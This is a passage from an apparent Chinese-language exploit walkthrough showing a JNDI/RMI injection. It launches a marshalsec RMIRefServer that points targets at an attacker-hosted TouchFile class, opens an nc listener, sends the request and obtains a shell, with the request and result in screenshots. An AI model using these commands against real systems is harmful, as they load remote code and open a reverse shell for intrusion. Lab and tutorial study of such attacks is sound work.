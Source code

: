   进行编译生成.class文件。搭建服务，要测试能直连TouchFile.class ，才会执行文件里的命令。

- **开启rmi服务**

  ```
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.2.101:4444/#TouchFile" 9999
  ```

  其中`http://192.168.2.101:4444`为你的rmi服务器的地址，9999为rmi监听的端口

- **开启nc监听**，6767为监听的端口

  ```
  nc -lnvp 6767
  ```

- **发包**

  ![image-20220813142233557](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220813142233557.png)

- **获得shell**

  ![image-20220813142311472](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220813142311472.png)